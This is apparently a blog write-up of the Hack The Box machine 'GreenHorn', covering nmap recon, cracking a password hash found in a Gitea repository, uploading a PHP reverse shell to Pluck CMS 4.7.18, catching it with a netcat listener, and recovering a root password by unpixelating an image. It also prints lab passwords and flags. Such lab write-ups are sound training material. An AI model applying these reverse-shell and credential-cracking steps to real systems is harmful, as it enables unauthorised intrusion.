 ```yaml
---
title: "GreenHorn from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# GreenHorn from HTB
[page](https://app.hackthebox.com/machines/GreenHorn)
First lets go and scan the IP with nmap and we get this:
```bash
 nmap -sCV 10.10.11.25
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-29 13:57 +04
Stats: 0:03:34 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.05% done; ETC: 14:00 (0:00:00 remaining)
Stats: 0:03:34 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.05% done; ETC: 14:00 (0:00:00 remaining)
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.35s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings:
|   GenericLines, Help, RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=5492b10992bb7ab5; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=GKYXdMU_Kco8L-vEsppzHOqkOFw6MTcyMjI0NzEzMDQ5ODczODk5NA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 29 Jul 2024 09:58:50 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions:
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=f322deec042b8556; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=jTRtL2YEqVDsduob6tpm9L9AvCQ6MTcyMjI0NzEzNzU1MDQ4NzMyMg; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 29 Jul 2024 09:58:57 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=7/29%Time=66A767DA%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,252E,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=5492b10992bb7ab5;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=GKYXdMU_Kco8L-vEsppzHOqkOFw6MTcyMjI0NzEzMDQ5ODczODk5NA;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Mon,\x2029\x20Jul\x202024\x2009:58:50\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x
SF:20rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR
SF:3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6
SF:Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmh
SF:vcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLC
SF:JzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvY
SF:X")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,1A4,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Cont
SF:rol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nS
SF:et-Cookie:\x20i_like_gitea=f322deec042b8556;\x20Path=/;\x20HttpOnly;\x2
SF:0SameSite=Lax\r\nSet-Cookie:\x20_csrf=jTRtL2YEqVDsduob6tpm9L9AvCQ6MTcyM
SF:jI0NzEzNzU1MDQ4NzMyMg;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20Sam
SF:eSite=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Mon,\x2029\x20J
SF:ul\x202024\x2009:58:57\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPR
SF:equest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 253.20 seconds

```
As you see there is `80 and 8000`port open so it's a site. That means we have to add the IP and the site name to `/etc/hosts`file.
```bash
127.0.0.1	localhost
127.0.1.1	darkfears31.giorgi	darkfears31

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.10.11.25 greenhorn.htb
```
After that go to browser and access the site : `greenhorn.htb`.  that means we are on `80`port and there is link on the bottom of the page which leads us to `?login.php` and we need the password to access it.
***
maybe use hydra on it, i don't know i didn't try it, ATP i can't access to the site i don't know why.
***
To find the password go to `greenhorn.htb:8000`where we will find the password.
go to explore and there is repository. In there go to this directory and this file:
`data-->settings-->pass.php`
```php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>

```
This is the password for the Junior. Go to [crackstation](https://crackstation.net/) and enter the hash. you will get the password: `iloveyou1`. you can close the site you will not need it after this.
Go to the main site and log in with this password. The site is on `pluck 4.7.18`after searching exploits on this version i learnt that i needed to upload `php-reverse-shell.php`in .zip file after going to `install modules`page.
```bash
nc -nlvp 1234
```
to get the connection after uploading the `.zip`file.
After uploading we get the connection and we need to run this code because
```bash
 nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.25] 55670
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 10:06:06 up 5 min,  0 users,  load average: 0.00, 0.06, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```
of this. The code is:
```python
 python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@greenhorn:/$
```
Then we need to login as `user named junior`. So run the:
```bash
www-data@greenhorn:/home/junior$ su junior
su junior
Password: iloveyou1
```
After this in Juniors directory we can read the user.txt:
```bash
junior@greenhorn:~$ cat user.txt
cat user.txt
3663c5ef34958f2ac0a5787db46c8576
```
This is the first flag.
Also there is the `Using OpenVAS.pdf`. There is valuable information there so we need to get this file into our PC, for that we will use the:
```bash
junior@greenhorn:~$ mv 'Using OpenVAS.pdf' openvas.pdf
junior@greenhorn:~$ python3 -m http.server
```
into that directory and from our PC-s terminal we will use the:
```bash
$ wget greenhorn.htb/openvas.pdf
```
![](/assets/images/Screenshot from 2024-07-29 15-47-11.png)
There is pixelated password as image so we need to extract it with this:
```bash
$ pdfimages -png openvas.pdf output.png
```
![[output.png-000.png]]
For that we will use the `Depix`from github:
```
$ git clone https://github.com/spipm/Depix.git
```
there is code written in Git that we will use to get the password for root:
```python
python3 depix.py
-p ~/output.png-000.png  \
-s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
-o output.png
```
this will give us the normal `.png`file with password:
![[output.png]]
The password is:
`sidefromsidetheothersidesidefromsidetheotherside`
Then go to `NetCat`and then login as root with this:
```bash
junior@greenhorn:~$ su root
su root
Password: sidefromsidetheothersidesidefromsidetheotherside
```
after that go to `Root-s`home directory and `cat`the `root.txt` to get the root flag:
```bash
root@greenhorn:~# ls
ls
cleanup.sh  restart.sh  root.txt
root@greenhorn:~# cat root.txt
cat root.txt
ab4ea6c7e33b1184fc85dc81689155aa
```
![](/assets/images/Screenshot from 2024-07-29 15-09-27.png)

